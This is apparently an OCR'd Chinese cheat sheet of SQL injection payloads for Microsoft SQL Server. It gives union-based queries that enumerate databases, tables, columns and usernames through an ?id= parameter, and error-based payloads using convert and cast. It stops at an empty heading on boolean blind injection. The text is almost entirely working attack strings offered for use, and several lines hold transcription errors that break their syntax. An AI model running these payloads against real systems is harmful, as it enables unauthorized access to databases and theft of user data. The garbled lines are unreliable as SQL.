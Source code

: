 



## 联合注入

```
?id=-1' union select null,null--

?id=-1' union select @@servername, @@version--

?id=-1' union select db_name(),suser_sname()--

?id=-1' union select (select top 1 name from sys.databases where name not in (select top 6 name from sys.databases)),null--

?id=-1' union select (select top 1 name from sys.databases where name not in (select top 7 name from sys.databasesl),null--

?id--1' union select (select top 1 table_ name from information_schema.tables where table_name not in (select top 0 table_name from information_schema.tables)),null--

?id=-1' union select (select top 1 column name from information_schema.columns where table_name='users' and column_name not in (select top 1 column_name from information_schema.columns where table_name = 'users')),null---

?id=-1' union select (select top 1 username from users where username not in (select top 3 username from users)),null--
```

## 报错注入

```bash
# 对于整数型
convert(int,@@version)
cast((SELECT @@version) as int)

# 对于字符型
' + convert(int,@@version) + '
' + cast((SELECT @@version) as int) + '
```



```
?id=1' and 1=(select 1/@@servername)--

?id=1' and 1=(select 1/(select top 1 name from sys.databases where name not in (select top 1 name from sys.databases))--
```

## 盲注 

### 布尔盲注
